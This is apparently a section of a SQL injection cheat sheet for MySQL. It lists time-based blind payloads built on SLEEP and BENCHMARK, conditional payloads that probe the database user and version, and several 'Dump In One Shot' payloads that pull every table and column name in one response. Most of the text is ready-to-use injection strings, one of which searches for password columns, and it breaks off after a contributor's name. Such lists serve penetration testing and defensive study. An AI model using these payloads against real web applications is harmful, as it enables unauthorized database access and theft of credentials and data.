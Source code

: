 ```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=DATABASE() AND column_name LIKE '%pass%' LIMIT 0,1) LIKE '%')#
```

### Using Conditional Statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

DIOS (Dump In One Shot) SQL Injection is an advanced technique that allows an attacker to extract entire database contents in a single, well-crafted SQL injection payload. This method leverages the ability to concatenate multiple pieces of data into a single result set, which is then returned in one response from the database.

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```

* SecurityIdiots

    ```sql
    make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* Profexer

    ```sql
    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
    ```

* Dr.Z3r0

    ```sql
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))
    ```

* M@dBl00d

    ```sql
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
    ```

* Zen
